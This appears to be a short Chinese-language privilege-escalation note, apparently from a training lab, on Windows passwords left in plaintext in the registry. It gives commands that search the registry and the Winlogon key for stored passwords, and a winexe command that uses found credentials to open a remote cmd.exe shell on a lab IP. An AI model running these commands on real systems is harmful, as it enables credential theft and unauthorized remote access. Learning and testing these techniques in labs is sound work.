 # 注册表配置错误-储存在注册表中的密码

原理：管理员会重复使用他们的密码，或者将他们的密码留在系统上可读的位置。Windows 本身有时会将密码以明文形式存储在注册表中。

Winpeas枚举 ：参数：filesinfo（搜索可以包含凭据的文件）和 userinfo（搜索用户信息）

利用方式：

```bash
reg query HKLM /f password /t REG_SZ /s    //在注册表中搜索包含“密码”一词的键和值 ，也可用winpeas 进行枚举
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"   //查询通常位置
winexe -U 'admin%password' //10.10.116.47 cmd.exe   //在kali中直接使用winexe 
```